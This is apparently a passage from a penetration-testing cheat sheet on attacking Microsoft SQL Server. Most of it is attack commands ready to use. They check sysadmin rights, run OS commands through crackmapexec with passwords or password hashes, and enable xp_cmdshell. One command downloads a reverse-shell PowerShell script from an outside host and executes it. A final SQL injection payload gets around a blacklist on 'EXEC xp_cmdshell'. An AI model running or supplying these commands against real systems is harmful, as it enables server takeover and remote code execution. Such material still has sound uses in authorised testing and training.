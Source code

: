 ```
```
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Get users that can run xp_cmdshell
```
Use master
EXEC sp_helprotect 'xp_cmdshell'
```


# Execute OS Commands

## Username + Password + CMD command
```
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
```

## Username + Hash + PS command
```
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
```

## Check if xp_cmdshell is enabled
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```

## This turns on advanced options and is needed to configure xp_cmdshell
```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

## This enables xp_cmdshell
```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## One liner
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

## Quickly check what the service account is via xp_cmdshell
```
EXEC master..xp_cmdshell 'whoami'
```


## Get Rev shell
```
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

## Bypass blackisted "EXEC xp_cmdshell"
```
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```